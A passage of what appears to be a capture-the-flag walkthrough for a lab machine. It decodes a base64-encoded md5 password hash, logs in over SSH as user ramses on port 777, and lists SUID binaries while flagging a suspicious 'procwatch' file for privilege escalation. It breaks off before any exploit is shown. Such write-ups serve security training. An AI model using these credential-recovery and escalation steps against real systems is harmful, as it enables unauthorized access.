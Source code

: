 ![dump](images/dump.png)

The ramses password is a md5 hash coded in base64:
```Console
# echo -n YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | base64 --decode
c6d6bd7ebf806f43c76acc3681703b81
```
![md5](images/md5.png)

The credentials ramses:omega is successful for ssh (port 777).

```Console
# ssh -p 777 ramses@10.0.2.13
ramses@10.0.2.13's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep  3 00:06:26 2022 from 10.0.2.15
-bash-4.3$ whoami
ramses
-bash-4.3$ id
uid=1002(ramses) gid=1002(ramses) groups=1002(ramses)
-bash-4.3$
```
## Privilege Escalation

The machine has a weird file with suid perm named _procwatch_ that execute a simple ps:
```Console
-bash-4.3$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/pt_chown
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/procmail
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/sbin/exim4
/var/www/backup/procwatch
/bin/su
/bin/mount
/bin/umount
```